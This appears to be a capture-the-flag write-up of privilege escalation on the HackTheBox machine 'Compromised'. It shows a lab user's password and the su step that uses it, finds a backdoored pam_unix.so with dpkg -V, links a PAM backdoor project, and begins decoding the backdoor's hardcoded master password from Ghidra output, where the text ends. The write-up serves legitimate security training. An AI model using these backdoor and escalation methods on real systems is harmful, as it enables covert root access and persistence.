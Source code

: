 ### creds
`sysadmin:3*NLJE32I$Fe`


### USER:sysadmin shell

* su to user sysadmin

      mysql@compromised:~$ su - sysadmin
      Password: 3*NLJE32I$Fe
      sysadmin@compromised:~$ cat user.txt
      6353ccb6************************


# Privesc Enumeration

* while searching for most recently modified files i found a Shared Object `pam_unix.so`

      sysadmin@compromised:~$ dpkg -V 2>/dev/null
      ??5??????   /lib/x86_64-linux-gnu/security/pam_unix.so

      sysadmin@compromised:~$ ls -lt /lib/x86_64-linux-gnu/security/pam_unix.so
      -rw-r--r-- 1 root root 198440 Aug 31 03:25 /lib/x86_64-linux-gnu/security/pam_unix.so

  * this [file](https://github.com/x00tex/hackTheBox/blob/main/Boxes/linux/Retired/compromised/dump/pam_unix.so) created/modified(Aug 31) just before the box release(12 September 2020).

* __[pam_unix](https://linux.die.net/man/8/pam_unix):__ It uses standard calls from the system's libraries to retrieve and set account information as well as authentication. Usually this is obtained from the /etc/passwd and the /etc/shadow file as well if shadow is enabled.

* one intresting thing i found while searching about this file is that this file also used in persistence compromised attack where attacker modified the file and backdoored it with a master password to access root witout any interruption and i also found a script for this at  [zephrax@github](https://github.com/zephrax/linux-pam-backdoor)


# Root Privesc

* Download file in my machine

    `scp sysadmin@10.10.10.207:/lib/x86_64-linux-gnu/security/pam_unix.so pam_unix.so`
        
      sysadmin@10.10.10.207's password: 3*NLJE32I$Fe
      pam_unix.so                                                 100%  194KB 111.2KB/s   00:01

* using __[Ghidra](https://ghidra-sre.org/)__ reverse engineering tool to disassemble the library -

      backdoor._0_8_ = 0x4533557e656b6c7a;
      backdoor._8_7_ = 0x2d326d3238766e;

* decoding hardcoded password:
  * convert hex into charsequence in ghidra -

        00103195 48 b8 7a        MOV        RAX,"E3U~eklz"
